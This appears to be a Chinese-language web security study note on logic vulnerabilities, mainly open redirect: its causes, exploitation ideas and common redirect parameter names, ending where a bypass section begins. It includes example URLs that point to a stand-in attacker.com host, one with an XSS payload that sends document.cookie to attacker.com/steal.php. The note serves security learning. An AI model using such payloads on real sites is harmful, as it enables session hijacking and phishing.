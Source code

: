 ```yaml
---
title: 逻辑漏洞  
tags:  
  - web安全  
creation date: 2024-03-15  
done: true  
---
```

> [!note]
> **逻辑漏洞**：因程序员的思维逻辑的不足，导致编写程序产生的漏洞。与传统漏洞不同点是，逻辑漏洞是用合法的方式就可达成破坏的效果。这类漏洞一般的防护手段或者设备无法阻止，漏洞扫描器也难以发现。  
> **常见场景**：大部分出现在互联网等大企业，特别是业务越多，逻辑越混乱出现的可能性就越大。逻辑漏洞更需要的是细心、对业务的熟悉程度，以及广泛的知识面。  

# 1. url 跳转漏洞  
---
也被称为开放重定向漏洞，可以跳转到任意指定的 url 。  
服务器端未对传入的跳转 url 变量进行检查和过滤。攻击者可以利用该漏洞来伪造 URL，引导用户跳转到恶意站点，进行钓鱼、诱导下载等攻击行为。  
常出现于接受用户输入并将其用于构建 URL 的场景，例如：  
- 用户身份验证和授权：在用户身份验证和授权的过程中，URL 参数通常用于跳转到另一个页面。例如，在某些网站上，用户必须在登录页面上提供凭据，然后被重定向到其他页面。攻击者可能会利用这种机制，将受害者重定向到一个看起来合法的页面，以窃取其登录凭据。  
- 第三方应用程序：在某些情况下，Web 应用程序可能允许第三方应用程序访问其API，并使用URL参数跳转到其他页面。如果未正确验证和授权第三方应用程序，攻击者可以通过构建恶意 URL 来重定向用户到恶意站点。  
类似的跳转类型：`http://example.com/login.php?redirect=http:http//attacker.com/evil.php`  
攻击者可以通过将恶意站点URL（如 `http://attacker.com/evil.php`）放入`redirect`参数中，使得用户在登录成功后跳转到攻击者的站点上，从而进行一些恶意操作。攻击者还可以利用一些其他技术手段，如URL缩短服务、欺骗用户等，更好地利用该漏洞进行攻击。  

## **1.1 利用思路**  
- 钓鱼网站  
- 配合 xss 漏洞  
    攻击者可以通过 URL 漏洞构造出一个恶意的 URL ，并将其嵌入到一个页面中。当用户点击该链接时，可能会触发XSS漏洞，从而导致恶意代码被执行，例如窃取用户的敏感信息、注入恶意代码等。  
    构造URL如下：  

    ```Plain Text  
    https://www.example.com/login.php?redirect_url=<script>location.href='https://attacker.com/steal.php?cookie='+document.cookie</script>  
    ```  

    当用户点击该链接进行登录时，会被重定向到一个恶意站点，并将用户的Cookie信息传输到攻击者的服务器上，攻击者可以通过获取到的Cookie信息进行后续的攻击。  

- 配合 csrf 漏洞  
- 配合浏览器漏洞：CVE-2018-8174 等  

## 1.2 常见的 bypass 方法  
```ad-note
Url 跳转常用参数：  
redirect, url, redirectUrl, callback, return_url, toUrl, ReturnUrl, fromUrl, redUrl, request, redirect_to, redirect_url, jump, jump_to, target, to, goto, link, linkto, domain, oauth_callback 等。  
```

假设存在如下情况：    
- `www.xxx.com`：存在url跳转漏洞的网站  
    - `redirect`是`www.xxx.com`网站的跳转页面  
    - `login.xxx.com`是该网站的登录页面  
- `www.attacker.com`：攻击者的网站  

